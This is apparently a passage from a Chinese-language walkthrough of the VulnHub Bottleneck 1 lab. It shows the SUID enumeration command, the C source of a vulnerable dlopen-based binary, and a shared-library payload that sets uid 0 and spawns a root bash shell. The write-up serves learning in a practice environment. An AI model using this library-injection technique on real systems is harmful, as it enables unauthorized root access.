 ### 提权 root

使用`find`命令查找居于 SUID 权限可执行文件

这个也是在这个系列的第一篇文章中介绍过，文章开头有链接

```
find / -perm -u=s -type f 2>/dev/null
```

> 文件有权限。www-data 和 bytevsbyte 所属的用户组不同。bytevsbyte 属于 tester 用户组，而只有 tester 用户可以读
> 取/usr/test 目录下的内容。

![][19]

发现可疑文件`/usr/test/testlib`，进入路径看看

![][20]

```
#include <dlfcn.h>
#include <unistd.h>

int main(int argc, char *argv[]){
    void *handle;
    int (*function)();
    if(argc < 2)
        return 1;
    handle = dlopen(argv[1], RTLD_LAZY);
    function = dlsym(handle, "test_this");
    function();
    return 0;
}
```

> 这个可执行文件加载了一个共享库，扩展名为（.so），并在该库中调用了一个名为 test_this 的函数。 共享库的名称作为第一个参数传递给此可执行文件，因此我们需要在一个必须具有名称“ test_this”的函数中创建一个 Shell，并将其编译为共享库。 然后运行 testlib 并将其作为参数传递

这里使用了`jivoi`大佬的一个[`shell`][21]

但是要注意把函数的名字改为`test_this`，并且还要多加一个头文件`#include <stdlib.h>`

代码如下：

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
int test_this(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```

后面的`c`文件和`so`文件的名字就无所谓了


[1]: https://www.vulnhub.com/entry/bottleneck-1,374/
[2]: https://soapffz.com/427.html
[3]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_200649.png
[4]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_200527.png
[5]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201035.png
[6]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201138.png
[7]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201713.png
[8]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201746.png
[9]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201939.png
[10]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_205021.png
[11]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_193531.png
[12]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_194854.png
[13]: https://www.secpulse.com/archives/75491.html
[14]: https://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html
[15]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_195221.png
[16]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_200012.png
[17]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_202403.png
[18]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_203027.png
[19]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_204015.png
[20]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_204125.png
[21]: https://github.com/jivoi/pentest/blob/master/shell/rootshell.c
[22]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_211656.png
[23]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200117_210048.png
[24]: https://ischizo.com/write-up-bottleneck-1-vulnhub/
[25]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ